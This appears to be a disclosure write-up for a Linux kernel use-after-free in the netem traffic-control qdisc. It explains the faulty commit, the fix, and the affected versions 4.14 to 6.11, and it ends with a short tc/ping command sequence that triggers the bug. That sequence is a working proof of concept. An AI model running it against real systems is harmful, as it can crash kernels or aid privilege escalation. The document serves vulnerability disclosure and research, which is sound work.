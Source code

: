 A vulnerability in the traffic control subsystem's netem qdisc (`CONFIG_NET_SCH_NETEM ` in the kernel config) can lead to a use-after-free. The commit `5845f706388a ("net:netem: fix skb length BUG_ON in __skb_to_sgvec")` introduced the bug by making `netem_enqueue()` always return `NET_XMIT_SUCCESS` when a packet is duplicated, which can cause the parent qdisc's `q.qlen` to be mistakenly incremented. When this happens `qlen_notify()` may be skipped on the parent during destruction, leaving a dangling pointer for some classful qdiscs like DRR. There are two ways for this to happen:

- If the duplicated packet is dropped by `rootq->enqueue()` and then the original
  packet is also dropped.
- If `rootq->enqueue()` sends the duplicated packet to a different qdisc and the
  original packet is dropped.

In both cases `NET_XMIT_SUCCESS` is returned even though no packets are enqueued
at the netem qdisc. 

The bug was present in kernel versions `4.14-6.11` and was fixed by commit `c07ff8592d57 (netem: fix return value if duplicate enqueue fails)`. 

Commands for triggering the UaF:

```
ip link set lo up
tc qdisc add dev lo parent root handle 1: drr
tc filter add dev lo parent 1: basic classid 1:1
tc class add dev lo parent 1: classid 1:1 drr
tc qdisc add dev lo parent 1:1 handle 2: netem limit 0 dup 100
ping -c1 -W0.01 localhost # Trigger bug
tc class del dev lo classid 1:1
tc class add dev lo parent 1: classid 1:1 drr
ping -c1 -W0.01 localhost # UaF
```